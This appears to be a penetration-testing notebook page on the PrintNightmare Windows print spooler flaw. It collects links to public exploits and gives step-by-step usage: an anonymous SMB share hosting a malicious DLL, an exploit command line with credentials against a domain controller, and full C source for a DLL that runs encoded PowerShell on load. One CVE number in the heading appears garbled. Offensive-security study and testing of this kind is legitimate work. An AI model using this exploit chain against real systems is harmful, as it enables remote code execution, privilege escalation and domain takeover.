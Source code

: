# PrintNightmare

**CVE-2021-16751, CVE-2021-34527**




## Exploits



### C++

RCE (fork of the original repo):

* [https://github.com/afwu/PrintNightmare](https://github.com/afwu/PrintNightmare)

LPE:

* [https://github.com/hlldz/CVE-2021-1675-LPE](https://github.com/hlldz/CVE-2021-1675-LPE)



### Python

RCE:

* [https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)


#### Usage

1. Prepare [an SMB share with anonymous authentication](/pentest/infrastructure/ad/smb.md#smb-share-with-null-authentication) allowed:
2. Generate an evil DLL: a С2 stager / add user to a privileged group ([1](https://github.com/newsoft/adduser), [2](https://github.com/calebstewart/CVE-2021-1675/blob/main/nightmare-dll/nightmare/dllmain.cpp)) / invoke a [custom](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking#your-own) command (see example below).
3. Run the exploit:

```
$ python CVE-2021-1675.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 '\\10.10.13.37\share\pwn.dll'
```

{% code title="pwn.c" %}
```c
// x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

// Default function that is executed when the DLL is loaded
void Entry() {
    system("powershell -enc <BASE64_PWSH_CODE>");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
      CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```
{% endcode %}

An example on configuring and abusing RBCD on a DC with PrintNightmare 👉🏻 [here](https://snovvcrash.rocks/2021/06/30/leveraging-printnightmare-to-abuse-rbcd.html).



### C\#

RCE + LPE:

* [https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare)



### PowerShell

LPE:

* [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)




## Reproducibility

Depending on the state of a user's access token (elevated / non-elevated) whose account one's impersonating when making RPC calls to `RpcAddPrinterDriverEx`, the attack may succeed or fail. On the following diagram (by [@StanHacked](https://twitter.com/StanHacked/status/1410929974358515719/photo/1)) there're some conditions that can affect the token state:

![](/.gitbook/assets/004.jpg)




## Mitigation

* [https://github.com/LaresLLC/CVE-2021-1675](https://github.com/LaresLLC/CVE-2021-1675)
